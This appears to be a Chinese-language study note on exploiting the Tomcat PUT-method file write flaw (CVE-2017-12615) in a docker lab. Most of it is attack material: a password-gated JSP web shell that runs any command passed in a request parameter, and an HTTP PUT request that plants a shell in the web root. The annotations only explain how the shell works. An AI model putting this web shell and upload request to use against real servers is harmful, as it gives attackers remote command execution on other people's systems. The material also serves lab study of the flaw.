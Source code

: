 ### Tomcat（中间件漏洞）
- Tomcat PUT方法任意写文件漏洞（CVE-2017-12615）
- Tocat版本：7.0.0-7.0.79、8.5.19
```
docker search CVE-2017-12615
docker pull cved/cve-2017-12615
```
- 漏洞的POC
```jsp
<%
if("geektime".equals(request.getParameter("pwd"))){
java.io.InputStream in =
Runtime.getRuntime().exec(request.getParameter("i")).getInputStream();
int a = -1;
byte[] b = new byte[2048];
out.print("<pre>");
while((a=in.read(b))!=-1){
out.println(new String(b));
}
out.print("</pre>");
}
%>

// 上述代码的关键部分：
if("geektime".equals(request.getParameter("pwd")))
// 将密码pwd用geektime指代
exec(request.getParameter("i")).getInputStream();
// 用参数i接收用户的输入，执行用户的输入内容
```
- 直接发送一下数据包即可在Web根目录写入shell
```http
PUT /test.jsp/ HTTP/1.1
Host: your-ip:8080
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64;
Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 5

shell
```
- 利用shell执行命令（web shell）
  
![Alt text](images/image03.png)
